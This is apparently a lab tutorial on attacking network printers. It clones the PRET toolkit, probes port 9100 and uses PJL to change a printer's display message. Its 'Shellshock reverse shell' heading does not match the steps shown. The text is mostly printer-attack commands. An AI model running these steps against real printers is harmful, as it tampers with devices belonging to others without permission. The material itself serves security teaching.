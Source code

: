 ## Getting a Reverse Shell via Shellshock Attack

### Background

Why printer hacking: read this article first:
https://www.theverge.com/2018/11/30/18119576/pewdiepie-printer-hack-t-series-youtube

### Setup

One VM only.

### Steps

Pret stands for PRinter Exploitation Toolkit.

1. get the source code from github:

```console
git clone https://github.com/RUB-NDS/PRET
```

2. go inside the PRET directory:

```console
cd PRET
```

3. install necessary modules:

```console
sudo pip install colorama pysnmp
```

4. select a targeted printer, test if the printer has port 9100 open: 

```console
telnet printerIP 9100 (You will see "Connection refused" if not open)
```

5. Now that you are in the PRET directory, run the script to establish a connection between you and the printer: ./pret.py printerIP pjl

6. Change the display message: 

printerIP:/> display\\
Message: Game Over...\\
Setting printer's display message to "Game Over..."\\

This will change the printer display message to "Game Over...".

